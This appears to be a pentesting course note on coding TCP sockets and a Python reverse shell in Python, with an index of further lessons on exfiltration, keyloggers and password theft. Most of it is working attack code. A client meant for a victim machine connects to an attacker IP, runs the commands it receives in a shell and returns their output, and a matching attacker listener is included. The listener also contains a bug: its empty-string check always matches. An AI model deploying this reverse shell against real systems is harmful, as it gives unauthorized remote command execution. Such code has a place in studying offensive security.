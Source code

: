 ```yaml
---
title: Coding a TCP connection and d reverse shell
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - reverse shell
---
```


# Coding a TCP connection and a reverse shell

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall.md).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).





## Basic connection 

From eJPT study module + the book Networking computers.

### Client side

To be run on victim's computer.
```python
from socket import *
serverName = "servername or ip"
serverPort = 12000

clientSocket = socket(AF_INET, SOCK_STREAM)
clientSocket.connect((serverName, serverPort))

sentence = str(input("Enter a sentence in lower case: "))
clientSocket.send(sentence.encode())
modifiedSentence = clientSocket.recv(1024)

print("From server: ", modifiedSentence.decode())
clientSocket.close()
```

### Server  side

```python
from socket import *

serverPort = 12000
serverSocket = socket(AF_INET, SOCK_STREAM)

serverSocket.bind(('', serverPort))
serverSocket.listen(1)
print("Server is ready to receive...")

while True:
	connectionSocket, addr = serverSocket.accept()
	sentence = connectionSocket.recv(1024).decode()
	capitalizedsentence = sentence.upper()
	connectionSocket.send(capitalizedsentence.encode())
	connectionSocket.close()
```


## Reverse TCP connection 

From the course: Python For Offensive PenTest: A Complete Practical  

### Client side

To be run on victim's computer.

```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


import socket    # For Building TCP Connection
import subprocess # To start the shell in the system

def connect():
    s = socket.socket()
    s.connect(('10.0.2.6', 1234)) # Here we define the Attacker IP and the listening port

    while True:
        command = s.recv(1024) # keep receiving commands from the Kali machine, read the first KB of the tcp socket

        if 'terminate' in command.decode(): # if we got terminate order from the attacker, close the socket and break the loop
            s.close()
            break
        else:   # otherwise, we pass the received command to a shell process

            CMD = subprocess.Popen(command.decode(), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
            s.send(CMD.stdout.read()) # send back the result
            s.send(CMD.stderr.read()) # send back the error -if any-, such as syntax error

def main():
    connect()
main()
        
```

### Server side

To be run on attacker's computer.

```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


import socket

def connect():

    s = socket.socket()
    s.bind(("10.0.2.15", 1234))
    s.listen(1) # define the backlog size for the Queue, I made it 1 as we are expecting a single connection from a single
    conn, addr = s.accept() # accept() function will retuen the connection object ID (conn) and will return the client(target) IP address and source port in a tuple format (IP,port)
    print ('[+] We got a connection from', addr)

    while True:

        command = input("Shell> ")

        if 'terminate' in command: # If we got terminate command, inform the client and close the connect and break the loop
            conn.send('terminate'.encode())
            conn.close()
            break
        elif '' in command: # If the user just click enter, we will send a whoami command
            conn.send('whoami'.encode()) 
            print( conn.recv(1024).decode()) 
        else:
            conn.send(command.encode()) # Otherwise we will send the command to the target
            print( conn.recv(1024).decode()) # print the result that we got back

def main():
    connect()
main()

```


## Using pyinstaller

See [pyinstaller](../pyinstaller.md).